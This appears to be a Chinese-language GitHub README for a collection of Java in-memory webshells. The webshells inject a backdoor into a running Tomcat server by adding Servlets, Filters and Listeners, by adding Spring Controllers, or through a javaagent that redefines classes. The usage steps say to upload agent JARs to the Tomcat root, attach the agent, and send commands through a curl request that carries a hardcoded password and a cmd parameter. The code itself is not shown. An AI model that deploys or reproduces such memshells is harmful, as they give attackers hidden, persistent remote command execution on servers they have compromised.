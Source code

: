 # JAVA_memshells
java 内存马系列 实现（Servlets 、组件、Agent）

# java 内存马实现落地
## 1、基于动态添加Servlets组件(Listener、Servlet、Filter)
addfilter.jsp

addHttpServlet.jsp

addServlet.jsp

addListerner.jsp
## 2、基于框架组件，Spring的Controller

## 3、基于javaagent技术运行时加载，instrumentation的redefinessClass和retransformClass来实现对类的重加载或重构
inst.redefinessClass 
inst.retransformClass
### 使用方法
1、Tomcat的根目录中上传：Agent-1.0-SNAPSHOT-jar-with-dependencies.jar、Attach-1.0-SNAPSHOT-jar-with-dependencies.jar

2、java -jar Attach-1.0-SNAPSHOT-jar-with-dependencies.jar

3、curl http://tomcat:port/anypath?passwod=ga0weI&cmd={xx}
